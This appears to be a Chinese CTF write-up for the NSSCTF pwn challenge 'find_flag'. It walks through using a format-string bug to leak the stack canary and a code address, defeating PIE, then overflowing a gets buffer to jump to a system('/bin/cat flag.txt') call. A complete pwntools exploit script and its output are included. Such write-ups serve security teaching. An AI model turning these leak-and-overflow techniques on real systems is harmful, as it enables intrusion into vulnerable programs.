




# nssctf pwn find_flag wp

查看保护，发现保护全开:



打开 ida 从 main 进入 sub_132F 函数：
``` c
unsigned __int64 sub_132F()
{
  char format[32]; // [rsp+0h] [rbp-60h] BYREF
  _BYTE v2[56]; // [rsp+20h] [rbp-40h] BYREF
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Hi! What's your name? ");
  gets(format);
  printf("Nice to meet you, ");
  strcat(format, "!\n");
  printf(format);
  printf("Anything else? ");
  gets(v2);
  return __readfsqword(0x28u) ^ v3;
}
```

可以有两次利用机会。其中第一次主要是格式化字符串利用，来泄漏地址。  
分析 shift+f12 查看字符串发现有 `/bin/cat flag.txt` 交叉引用溯源到 `sub_1229`：



看来最终关键是要运行该 system 函数。  

首先这道题开了 canary，需要泄漏 canary 值。只需要找到 printf 偏移量加上 canary 与变量的偏移利用格式化字符串泄漏就可以拿到

最终得到 printf 偏移量为 6，两者相差 88 字节，得到最终 paylaod 为：`%17$p`。  
以及因为 PIE 保护，还需要泄漏已知的代码地址。我们选取 canary 后面的 return 地址。通过 pwndbg 查看栈地址可以得到：



rbp 之后的地址就是 sub_132F 的返回地址，也就是：




往下加 2 个偏移量也就是 ： `%19$p`。  

因为 64 位栈对齐的要求，选取`lea     rdi, command` 地址： `0x1231` 为返回地址，最后得到：

``` python
payload = b"%17$p*%19$p"

io.sendline(payload)
io.recvuntil(b"0x")
canary = int(io.recvuntil(b"00"), 16)
io.recvuntil(b"*")
ret_addr = int(io.recv(14), 16)

base_addr = ret_addr - 0x146f
flag_addr = base_addr + 0x1231
print(f"canary address = {hex(canary)}\nreturn address = {hex(ret_addr)}\nbase address = {hex(base_addr)}")
print(f"flag address = {hex(flag_addr)}")
```

运行结果如下：
```
canary address = 0xfdd90d3d3c802700
return address = 0x5589675b946f
base address = 0x5589675b8000
flag address = 0x5589675b9231
```
最后需要进行栈溢出劫持返回地址：

``` python
payload = b"a" * (0x40-0x8) + p64(canary) + b"a" * 8 + p64(flag_addr)
io.sendline(payload)
```

得到最后 exp：  

``` python
from pwn import *

context(arch="amd64", os="linux", log_level="info")
context.gdb_binary = "/bin/pwndbg"

io = process("./find_flag")
#io = remote(b"node4.anna.nssctf.cn", 25152)

# offset = 6
payload = b"%17$p*%19$p"

io.sendline(payload)
io.recvuntil(b"0x")
canary = int(io.recvuntil(b"00"), 16)
io.recvuntil(b"*")
ret_addr = int(io.recv(14), 16)

base_addr = ret_addr - 0x146f
flag_addr = base_addr + 0x1231
print(f"canary address = {hex(canary)}\nreturn address = {hex(ret_addr)}\nbase address = {hex(base_addr)}")
print(f"flag address = {hex(flag_addr)}")

payload = b"a" * (0x40-0x8) + p64(canary) + b"a" * 8 + p64(flag_addr)
io.sendline(payload)

io.interactive()
```
